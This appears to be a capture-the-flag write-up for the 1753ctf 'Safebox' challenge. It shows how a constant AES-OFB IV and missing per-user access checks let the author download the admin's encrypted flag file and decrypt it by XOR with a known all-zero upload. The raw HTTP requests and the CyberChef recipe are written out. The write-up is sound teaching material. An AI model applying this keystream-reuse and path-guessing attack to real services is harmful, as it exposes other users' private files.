

# Safebox

📦 Category: _WEB/CRYPTO_
🔗 Url: https://safebox-1bbcbadc1e5d.1753ctf.com

> Your files. Encrypted at rest. Premium accounts available soon. // careful, this app is resetting every 15 minutes

## Discovery

There is an AES algorithm used in the OFB mode:  
```javascript
    const cipher = crypto.createCipheriv('aes-256-ofb', key, iv);
```  
and there is constant IV used for every encryption:  
```javascript
    const key = Buffer.from(process.env.ENCRYPTION_KEY, 'hex');
    const iv = Buffer.from(process.env.ENCRYPTION_IV, 'hex');
```

which is a security issue.

If you use the same pair of key and IV for every encryption, you get the same keystream, and as a consequence you can decrypt encrypted content without a need to reveal the key and the IV.

Some equations explaining that:

`ciphertext` = `plaintext` $\oplus$ `keystream`

`ciphertext'` = `plaintext'` $\oplus$ `keystream`

`ciphertext` $\oplus$ `ciphertext'` = `plaintext` $\oplus$ `keystream` $\oplus$ `plaintext'` $\oplus$ `keystream` = `plaintext` $\oplus$ `plaintext'`

And if we provide `plaintext'` of all zeros we'll just receive plain `plaintext`.


## Solution

There is a predefined user `admin`, who has a file with the flag:  
```javascript
    uploadFile('admin', 'flag.txt', flagFile)
```

First we register our account (e.g. `ipol`). We upload some random file (with all zeros, encoded in Base64):  

```
POST /api/upload HTTP/2
Host: safebox-1bbcbadc1e5d.1753ctf.com
X-Token: cc3fda817a62f54e3b54385d31ecb0b0cccde09f44bd56a71fc7a73c4c179cdd
Content-Type: application/json
Content-Length: 1302

{"fileName":"random.txt","b64file":"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA=="}
```

and... we can't download it.

We need to figure out from the code how to download the file.

The path starts with `/files`:
```javascript
app.use("/files", express.static(path.join(__dirname, 'uploads_dir'))); // just for logged users
```

Then it is concatenated with SHA256 of user name:
```javascript
    const userFolder = crypto.createHash('sha256').update(username).digest('hex');
    const userDir = path.join(uploadsDir, userFolder);
```

And then the file name is appended:
```javascript
    await fs.writeFile(path.join(userDir, path.basename(fileName)), encryptedBuffer);
```
	
So the full path to the above uploaded file is:
```
GET /files/ae01ecd6005a58e8b136f14da81ad314ae2c4024713d8f3836acffeb0d0e6014/random.txt HTTP/2
Host: safebox-1bbcbadc1e5d.1753ctf.com
X-Token: cc3fda817a62f54e3b54385d31ecb0b0cccde09f44bd56a71fc7a73c4c179cdd

```

Remember about the authorisation token!

The response is a binary content so in orded not to loose anything, we'll encode it in Base64. 

## Exploitation

Now we are also ready to download the `flag.txt` file from `admin`'s folder. As there is no authorisation between users, we just deduce the path as ealier:
```
GET /files/8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918/flag.txt HTTP/2
```

It's a binary content in the response, so in orded not to loose anything, we'll encode it in Base64.  
A screenshot from a Burp Suite:



And we'll switch to CyberChef to:
- decode above flag.txt encrypted content from Base64,
- XOR it with our encrypted file.

The whole recipe is the following:  
https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)XOR(%7B'option':'Base64','string':'xoNs0TMq/fuPRKR/8NEBFBnZ1lfOTRw4cuM6OToC/dz1ehRdFrWSwIh6pJqkcGI%2B2GFomtEAsY1nQPXv0RavRBWpu1kBaibH56/wygZs9H1cx%2BlRtU/ezzRR3VjxkxCFSo47LV9F%2BrYb41UZAIb8f3JBlLL2PU0tazPNhy0HUuiigZ2iek5VbtDxU2Wy15hAC8KFQx7vlvsUX95zn9IkcarBxYxJrhIhqVbgOiKG3CzPUDcHt9znhXebVgAQxsMIkQmRb4hUM3ggGTzV8Tmr2t1Q9r6kGntu8WtBTbYeUaySKkCDgs%2B5cxWw1sIb9ElPEUVG4QpBvXfT7d72f9uefUlswAFtYcZvf4rdp6XuFcSogZvjQE0LeQNw8ZdYaO%2BDRX1/K67p7kZFZeFuYXlxUUvNt/CLFQLB0ILtBnmnsDv8MgcN3hYb7KeMiCKyJWAXDKsUshoka69mkuiQO2AON5V3IZc1ankkW3wPU669Ivlqg4G79wLuVlOZlu9IwOynyLP6cwHcJ0HE5NerHkFdkU9DqtC8f2svtWv7QbBMtoCudAxdxVu7XODhggTRLIqVdLM8XUlo0kn34Da1Yfvg8avlCZwPoKwyr0ygQq%2B7kCFzOo8/kSnew9MIl7c25cOzICor72Ysze/sJu/lWQtrvLGpKfrl1/hxjrBJayAD0RFXCdxfNzzLe3Y8pbr10KacEzwFBfVFtCpA0Q4/PYNsSsjxAqeeCEZ2ZU8KJ9RP/zAH0xDxNvI7jpsC61Xi15/3s3GLgam504sYyXAuGdlMsU0PUO%2BUelTrBAjX2Oq/D0e/hIVH1pViE9kHuo72N2FjLSI2/bAxkv7P2ULH50GaBAUZdhQIcE4usXz/62ZRq1hjRRPFhzuGV/pjSG2u2eFOqnqyFdpwa4rCtyr6SnaLrYTV5pjEBIU8RMCEGIylSJrVeZIr8tVhU4cZ7%2BKIMUltJ/ITN3txOi22C3A31bzsau7aWXbuuGBOfuuT/ClG2RgxiCZbbM0MlmYD6eRTxsHr1jT1XcJOCU/dQbgty1APRKCx7F6hlbhYTC8Epfh2AFjS6xbMzs79WbxY7jegPYdCDsm%2Br0eIFXwoxtWg9pjOeXbfDc8XY9AtrD50Q7lfpj9N%2BRsfFKLF7B21BIbZPImLke3vOx8XBIhwdor9%2BE/WVw3DSLBZfPMwzbHnt16nTT4pQk2ZRoMMpeLQwQwj25IQWEJl9dbFhQTn0dos4%2BgfRUADtnHKoU%2B2d3vMogbRyMrDBQ%3D%3D'%7D,'Standard',false)&input=a2VZQXZSOEttcFRnSUlRTG1MaHlOSCt3dWpMdUpHOFlGNDFaUzBOeWlibVJWalErZDhEaHBhZ1R5cnJGSGhzZXR4VUEvNk1LMHV3VUpkV2N2bnZLSzN2TW16cHVIMHFqeDhXRnVYSk1seEl4b3NrNTBEMjc3MVUvdVhpQzUzWGtKcTVXVkg4em05cHVnamQxWll5YUV4TW11cEtpVlNnTkRWK3M0QTF1SWNpVHRxaVJHVFV3QUxPREtoWEc1UHdmYWJmeEhIRGY0cVJuYis1RHI0MVhSY3lrbXU1NTFtOFBpUldQVlU2cS9FUzZPQWdudmRhKzRBUzdQM1F3cjdBcG13UENCdVkzVmdwRmRVWDFpRmJlcUs1OC9QUFdORnN2bFFZb0l3PT0

Et voilà!

We have the flag:
> Well, good this file is encrypted, cause in any other
> case someone could just come here and steal my valuable
> flag. The flag is 1753c{encrypt3d_but_n0t_s0000_s4fe_b0x}. Cool, huh? 
> 
> Yes it is!
> 
> Sincerely yours,
> Mr. Admin


## Alternative way

Another solution is to download the encrypted flag file and upload it again to re-encrypt it. Downloading the second file will reveal its original content. 

This also follows from how the XOR works and is a consequence of reusing IV for every encryption.

